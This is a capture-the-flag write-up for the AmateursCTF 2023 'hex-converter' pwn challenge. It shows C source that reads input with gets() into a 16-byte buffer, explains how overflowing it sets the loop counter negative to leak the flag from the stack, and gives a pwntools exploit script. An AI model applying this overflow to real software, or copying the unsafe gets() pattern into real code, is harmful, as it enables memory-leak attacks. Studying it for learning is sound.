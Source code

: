 # AmateursCTF 2023

## hex-converter

> I kept on getting my hex mixed up while trying to solve unvariant's pwn challenges, so I wrote my own converter to help me out.
>
> Hint: What's in the stack that we can overwrite?
>
>  Author: stuxf
>
> [`chal.c`](chal.c) [`chal`](chal) [`Dockerfile`](Dockerfile)

Tags: _pwn_

## Solution
This challenge comes with a binary plus source code. The code is small

```c
#include <stdio.h>
#include <stdlib.h>

int main()
{
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);

    int i = 0;

    char name[16];
    printf("input text to convert to hex: \n");
    gets(name);

    char flag[64];
    fgets(flag, 64, fopen("flag.txt", "r"));
    // TODO: PRINT FLAG for cool people ... but maybe later

    while (i < 16)
    {
        // the & 0xFF... is to do some typecasting and make sure only two characters are printed ^_^ hehe
        printf("%02X", (unsigned int)(name[i] & 0xFF));
        i++;
    }
    printf("\n");
}
```

Its easy to see that there is a potential buffer overflow when reading the `name` with `gets`. Its possible to override the counter `i` with a negative number so the loop will leak data that is located before the name array, which includes the flag.

```python
from pwn import *
import ctypes

binary = context.binary = ELF("./chal", checksec=False)

if args.REMOTE:
    p = remote("amt.rs", 31630)
else:
    p = process(binary.path)

payload = b""
payload += 28*b"A"
payload += p32(ctypes.c_uint(-80).value)

p.sendlineafter(b"convert to hex:", payload)
p.recvline()
buffer = p.recvline()[:-1].decode()
buffer.rjust((len(buffer)//2)*2, "0")
print(bytes.fromhex(buffer))
```

Flag `amateursCTF{arch1v3d_r1ght_b3f0r3_th3_start}`